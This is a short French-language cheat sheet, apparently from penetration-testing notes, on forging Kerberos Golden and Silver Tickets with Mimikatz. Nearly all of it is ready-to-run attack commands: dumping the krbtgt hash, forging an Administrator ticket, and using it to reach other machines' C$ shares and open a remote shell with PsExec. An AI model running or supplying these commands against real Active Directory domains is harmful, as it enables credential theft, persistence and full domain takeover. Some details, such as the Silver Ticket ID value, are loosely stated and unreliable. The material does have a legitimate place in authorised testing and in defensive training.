 # Silver & Golden Tickets 

[Mimikatz](Mimikatz.md)

- Un ticket argent (silver) est limité au service ciblé.
- Un ticket or (golden) a accès à n'importe quel service Kerberos.

## Golden Tickets

Vider le hachage krbtgt

```sh
lsadump::lsa /inject /name:krbtgt
# Assurez-vous que cela génère: [privilège '20' ok]
```

Créer un ticket d'or

```sh
kerberos::golden /user:Administrator /domain:controller.local /sid:{krbtgt_SID} /krbtgt:{krbtgt_NTHASH} /id:500

kerberos::golden /user:Administrator /domain:{DOMAIN} /sid:{SID} /krbtgt:{NTLM} /id:500

# Assurez-vous que cela génère: Final Ticket Saved to file !
```

Utilisez le ticket Golden pour accéder à d'autres machines

```sh
misc::cmd
# Cela ouvrira une nouvelle invite de commande avec des privilèges élevés sur toutes les machines


dir \\DESKTOP-1\c$
PsExec.exe \\DESKTOP-1 cmd.exe
```


## Silver Tickets

Pour créer un ticket d'argent, placez simplement un hachage NTLM de service dans l'emplacement krbtgt, le SID du compte de service dans SID et modifiez l'ID en 1103.

Créer un ticket d'or/d'argent

```sh
kerberos::golden /user:Administrator /domain:controller.local /sid: /krbtgt: /id:1103
```

Utilisez le ticket Silver pour accéder au service

```sh
misc::cmd
# Cela ouvrira une nouvelle invite de commande élevée avec le ticket donné dans mimikatz

dir \\DESKTOP-1\c$
```